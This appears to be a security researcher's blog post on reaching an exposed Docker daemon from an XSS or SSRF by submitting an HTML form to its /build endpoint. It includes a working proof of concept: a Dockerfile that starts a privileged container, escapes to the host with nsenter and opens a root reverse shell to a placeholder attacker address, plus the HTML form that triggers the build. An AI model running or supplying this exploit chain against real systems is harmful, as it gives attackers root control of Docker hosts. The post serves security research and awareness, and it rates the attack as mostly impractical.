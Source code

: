 ```yaml
---
title: Exploiting the Docker daemon from an XSS perspective
date: '2025-01-02T00:00:00+01:00'
description: >-
  While reporting exposed docker daemons during an internal pentest, a colleague
  came up with a weird idea : is it possible to hit the Docker API from an XSS ?
---
```


### Finding the right API endpoint

To exploit any API endpoint from an XSS, we first need to fight CORS restrictions. Sadly for us, Docker does not return any [CORS headers](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS).

This means we should only be able to hit the docker API using `GET` and `POST` requests sent straight from an HTML form.

Looking at the [Docker API documentation](https://docs.docker.com/reference/api/engine/version/v1.45/), pretty much all endpoints require a `Content-Type: application/json` header to be valid. In fact, the API will reject any request without this Content-Type, and it is protected against [Content-Type juggling](https://www.thehacker.recipes/web/inputs/content-type-juggling/).

While crawling through the docs, it seems that `POST /build` is the perfect candidate for our experiment.

https://docs.docker.com/reference/api/engine/version/v1.45/#tag/Image/operation/ImageBuild

The endpoint only expects _query_ parameters, which can easily be sent from an HTML form. It does not require the `application/json` Content-Type either.

The `remote` paremeter is exceptionnally interesting for our use case as well :&#x20;

> **remote** : A Git repository URI or HTTP/HTTPS context URI. If the URI points to a single text file, the file’s contents are placed into a file called `Dockerfile` and the image is built from that file. If the URI points to a tarball, the file is downloaded by the daemon and the contents therein used as the context for the build. If the URI points to a tarball and the `dockerfile` parameter is also specified, there must be a file with the corresponding path inside the tarball.

From here, the goal is to escape the Docker build process to obtain full RCE on the docker host. [We could try to exploit vulnerable Docker versions](https://www.paloaltonetworks.com/blog/prisma-cloud/leaky-vessels-vulnerabilities-container-escape/), but this is already overkill because we already have the full daemon exposed !&#x20;

The `networkmode` parameter is perfect because it will give us full network access and more importantly a "localhost" perspective using `host` mode. This helps us hitting the Docker daemon API without having to handle the container's gateway ourselves.

> **networkmode** : Sets the networking mode for the run commands during build. Supported standard values are: `bridge`, `host`, `none`, and `container:<name|id>`. Any other value is taken as a custom network's name or ID to which this container should connect to.

### Proof-of-concept

* Docker daemon exposed on `127.0.0.1:2375`
* Docker daemon running with root privileeges (usually the default setup)

When built, the following Dockerfile will run a Docker cli against the current host at `127.0.0.1:2375` and create an escape container, given that the daemon has root privileges. The container then sends a basic reverse shell to the attacker's machine :

```docker
FROM alpine:latest
RUN apk add --update docker-cli
RUN docker -H 127.0.0.1:2375 run -i --name pwned --rm --pid=host --privileged ubuntu:latest nsenter --target 1 --mount --uts --ipc --net --pid -- /bin/bash -c "bash -i >& /dev/tcp/attackerip/port 0>&1"
```

To trigger the build, we prepare a simple HTML POST form against `127.0.0.1:2375/build` and host the Dockerfile at any location that can be reached by the Docker daemon :

```html
<form method="POST" action="http://127.0.0.1:2375/build?&nocache=true&networkmode=host&remote=https://gist.githubusercontent.com/..../Pwned.Dockerfile">
  <input type="submit" value="PwnMe">
</form>
```

Submitting the form will trigger the build and give a root reeverse shell to the Docker host.

![demo](demo.gif)

### SSRF and Server-Side XSS

As you might expect, this attack can be executed in an SSRF scenario or a Server-Side XSS from Puppeteer or Selenium.

As of 01/01/2025, [SSRFMap](https://github.com/swisskyrepo/SSRFmap) does not include a Docker RCE SSRF, which makes me think that this technique is currently undocumented. Maybe in a future PR 😊

### RedTeam considerations

Docker daemons are very rarely exposed on servers, and you will probably never be able to get a "blind" XSS to run against a server.

Regarding workstations, it is not impossible, but I have never seen exposed docker daemons on end-user systems (unix or Docker Desktop). I guess it could work with a high risk / very low success rate on a mass-scale XSS. Meh.

This attack could be exploited against non-local hosts to bridge into restricted environments, but the attacker should already know the IP of an exposed docker daemon. In most cases, getting to know the IP already means you have access to the daemon.

Overall this makes the attack unpractical in a redteam scenario. This attack might only be interesting in a CTF challenge 😜